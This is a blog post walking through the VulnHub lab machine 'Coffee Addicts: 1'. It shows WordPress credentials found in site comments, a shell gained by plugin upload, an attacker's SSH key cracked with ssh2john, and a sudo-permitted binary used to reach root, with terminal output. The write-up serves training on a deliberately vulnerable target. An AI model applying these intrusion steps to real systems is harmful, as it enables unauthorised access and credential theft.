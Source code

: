 ```yaml
---
layout: post
title:  "Vulnhub: COFFEE ADDICTS: 1"
date:   2021-06-29 20:00:00 +1000
category: hacking
---
```


Yesterday evening I did **Explore** from HTB but that's a new machine so no writeup. It was pretty neat though. So, instead of that here is:

## COFFEE ADDICTS: 1
This is [COFFEE ADDICTS: 1](https://www.vulnhub.com/entry/coffee-addicts-1,699/) from VulnHub. 

>Our coffee shop has been hacked!! can you fix the damage and find who did it?.

It doesn't say how difficult it's supposed to be, but I'll say easy. Let's go.

## Ports
SSH and HTTP only.

## HTTP
The premise here is that the website has been hacked. It's Wordpress (a recent version), but the username and password is 'hiding' in plain sight, so yeah no wonder lol. 

At http://coffeeaddicts.thm/wordpress/?p=9#comments we find this caption under a photo of some hobo looking dude:

>gus i need you back

And underneath that is this:


{% highlight html %}
Lucy Longmire says:	
April 16, 2021 at 12:19 am	

yo, is that your password??
Reply

    gus says:	
    April 16, 2021 at 12:19 am	

    Maybe…
    what could go wrong? uwur
{% endhighlight %}

Just to drive the point home. So; we login to Wordpress with gus:gusineedyouback and I get a shell by uploading a plugin.

## Root
The system has been pwned by *BadByte*, who has created themselves an SSH key which we can read.

{% highlight shell %}
www-data@CoffeeAdicts:/home/badbyte/.ssh$ ls -lash
ls -lash
total 12K
4.0K drwxr-xr-x 2 root    root    4.0K Apr  6 15:09 .
4.0K drwxr-xr-x 5 badbyte badbyte 4.0K Apr 15 16:03 ..
4.0K -rw-r--r-- 1 root    root    1.8K Apr  6 15:09 id_rsa
{% endhighlight %}

This is encrypted with a weak password so it's ssh2john then crack it and login:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/coffee]
└─# ssh -i id_rsa badbyte@coffeeaddicts.thm
Enter passphrase for key 'id_rsa': 
badbyte@coffeeaddicts.thms password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-140-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 29 02:02:36 AKDT 2021

  System load:  0.0               Processes:             108
  Usage of /:   52.3% of 7.81GB   Users logged in:       0
  Memory usage: 56%               IP address for enp0s3: 192.168.1.57
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

81 packages can be updated.
49 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Sun Jun 20 01:49:14 2021 from 192.168.1.210
badbyte@CoffeeAdicts:~$ sudo -l
[sudo] password for badbyte: 
Matching Defaults entries for badbyte on CoffeeAdicts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User badbyte may run the following commands on CoffeeAdicts:
    (root) /opt/BadByte/shell
badbyte@CoffeeAdicts:~$ sudo -u root /opt/BadByte/shell
BadByte # id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
CoffeeAdicts
Tue Jun 29 02:03:00 AKDT 2021
BadByte # cd /root
BadByte # sh: 1: /root: Permission denied
BadByte # ls /root
BadByte # sh: 1: /root: Permission denied
BadByte # /bin/bash
root@CoffeeAdicts:~# cd /root
root@CoffeeAdicts:/root# ls -lash
total 36K
4.0K drwx------  3 root root 4.0K Apr  6 15:02 .
4.0K drwxr-xr-x 23 root root 4.0K Apr  6 12:54 ..
4.0K -rw-------  1 root root 1.1K Apr  6 14:28 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Apr  9  2018 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Apr  6 13:33 .local
4.0K -rw-------  1 root root  142 Apr  6 13:41 .mysql_history
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-------  1 root root   20 Apr  6 15:02 .python_history
4.0K -rw-r--r--  1 root root   25 Apr  6 14:28 root.txt
root@CoffeeAdicts:/root# cat root.txt
THM{im_the_shell_master}
{% endhighlight %}

So, nothing groundbreaking here but I guess it's all grist to the mill.

Oh obviously at some stage this was intended to be a THM room. It's listed as private at the moment but you can still join if you know how :)

